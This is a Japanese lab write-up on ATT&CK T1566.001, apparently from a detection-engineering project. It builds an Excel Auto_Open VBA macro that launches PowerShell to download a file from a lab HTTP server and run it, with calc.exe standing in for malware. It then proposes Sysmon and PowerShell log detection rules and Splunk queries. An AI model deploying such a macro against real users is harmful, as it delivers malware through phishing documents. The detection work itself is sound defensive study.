 # T1566.001 - Phishing Spearphishing Attachment

Phishing Spearphishing Attachment 検証
-------------

MS Office VBA Macro によるリモートファイルの実行とその検知について記載します。

|  Type  | Description   |
|:---|:---|:---|
|  ID  |  T1566.001  |
|  Tactic  |  Initial Access |
|  Techniques  |  Phishing  |
|  Sub-techniques  |  Spearphishing Attachment |


本検証では、リモート端末にホストされた悪意のあるファイルに見立てた calc.exe ファイルを取得し実行するマクロを実装します。

VBA マクロを操作するために、リボンの設定から「開発」にチェックを入れます。

![T1566.001-1](images/T1566.001/1.png)

追加された開発タブからVisual Basic を選択し、VBA プロジェクトから標準モジュールを挿入します。

![T1566.001-2](images/T1566.001/2.png)

ここではリモート端末にホストされた悪意のあるファイル相当の calc.exe ファイルを取得し実行するマクロを実装します。

```
Sub Auto_Open()

Set ws = CreateObject("WScript.Shell")

ws.Run "cmd.exe /c powershell.exe -Command (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.254:8080/calc.exe ','%USERPROFILE%\Desktop\malicious.exe'); %USERPROFILE%\Desktop\malicious.exe", 0, True

End Sub
```

今回のケースではリモート端末として Kali Linux を用意し、別途 Windows から取得した calc.exe を配置しています。
簡単のために Simple HTTP Server を用いて GET の待ち受けを行います。

![T1566.001-3](images/T1566.001/3.png)

```
$ python2 -m SimpleHTTPServer 8080
```

VBA マクロが正しく動作するかの確認は、緑の実行ボタンから確認することができます。

![T1566.001-4](images/T1566.001/4.png)

リモート端末側では calc.exe が取得される様子が確認できます。

![T1566.001-5](images/T1566.001/5.png)

最後に、MS Excel をマクロが動作する xlsm 形式で保存します。

ファイルをオープンすると「コンテンツの有効化」が求められ、クリックすることでcalc.exe ファイルの取得と実行が行われます。

![T1566.001-6](images/T1566.001/6.png)


検知ルール検討
-------------

検知ルールについて検討します。
検証を行った本攻撃手法では、MS Office から cmd.exe が呼び出されています。
excel.exe や winword.exe といった MS Office が Caller となり cmd.exe や powershell.exe のプロセスが生成されることは通常の業務利用では稀であると考え、このプロセスの関係を検知ルールに落とし込む方法が考えられます。
Sysmon の EID 1 では生成されたプロセスとその呼び出し元プロセスがそれぞれ Image と ParentImageとして記録されます。

Splunk であれば以下のような SPL でプロセスの関係性をテーブル表示、またはビジュアル化することが可能です。

```
source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational"
|eval ParentImage(From)=ParentImage 
|eval Image(To)=Image
|search "ParentImage(From)" != null
|table _time ParentImage(From) Image(To) process EventCode
|sort - _time
```
![T1566.001-7](images/T1566.001/7.png)

![T1566.001-8](images/T1566.001/8.png)

MS Office が Caller となり cmd.exe および powershell.exe のプロセスを生成する点に着目し、以下の検知ルールを提案します。

**MS Office からの cmd.exe および powershell.exe プロセス生成の検知ルール**

```
Sysmon
  EID 1 
    ParentImage 
      (*\EXCEL.EXE) OR (*\WINWORD.EXE)
　 AND
　 Image
      (*\cmd.exe) OR (*\powershell.exe) 
```

次に、本攻撃手法では、powershell.exe がリモートのファイルをダウンロードし、実行を行います。
その際に使われる Powershell のコマンドに着目し検知ルールを検討します。

Powershell の拡張ログでモジュールログ (EID4103)、スクリプトブロックログ (EID4104)それぞれで記録されるコマンド履歴に対してコマンドをマッチさせます。

Splunk であれば以下のような SPL で Powershell のコマンド部分を抽出することができます。

```
host="DESKTOP-53N6B15" source="XmlWinEventLog:Microsoft-Windows-PowerShell/Operational" EventID=4104
| rex field=EventData_Xml "<Data Name='ScriptBlockText'>(?P<PS_COMMAND>.+?)</Data>"  
| stats  count by PS_COMMAND  
| sort  - count
```

![T1566.001-9](images/T1566.001/9.png)

powershell.exe がリモートのファイルをダウンロードするコマンドに着目し、以下の検知ルールを提案します。

**powershell.exe によるリモートファイル取得の検知ルール**

```
Powershell
  EID 4103
    EventData
      Data Name="ContextInfo"
        (*WebClient*) AND (*DownloadFile*)
  OR
  EID 4104
    EventData
      Data Name="ScriptBlockText"
        (*WebClient*) AND (*DownloadFile*)
```

[Powershell.evtx をダウンロード](attach:attack-logs/T1566.001/Powershell.evtx)

[Sysmon.evtx をダウンロード](attach:attack-logs/T1566.001/Sysmon.evtx)